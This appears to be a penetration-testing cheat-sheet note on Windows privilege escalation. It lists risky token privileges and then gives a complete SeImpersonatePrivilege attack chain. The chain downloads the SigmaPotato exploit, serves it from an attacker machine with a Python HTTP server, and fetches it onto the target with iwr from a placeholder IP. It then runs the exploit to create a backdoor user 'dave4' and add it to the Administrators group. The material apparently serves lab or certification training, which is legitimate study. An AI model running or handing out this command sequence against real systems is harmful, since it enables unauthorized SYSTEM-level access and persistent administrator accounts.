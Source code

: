 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
To exploit this privilege, SigmaPotato (or other "potato" exploits) can be used to trick "NT AUTHORITY\SYSTEM" into authenticating into a malicious named pipe, allowing us to execute commands as them.
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
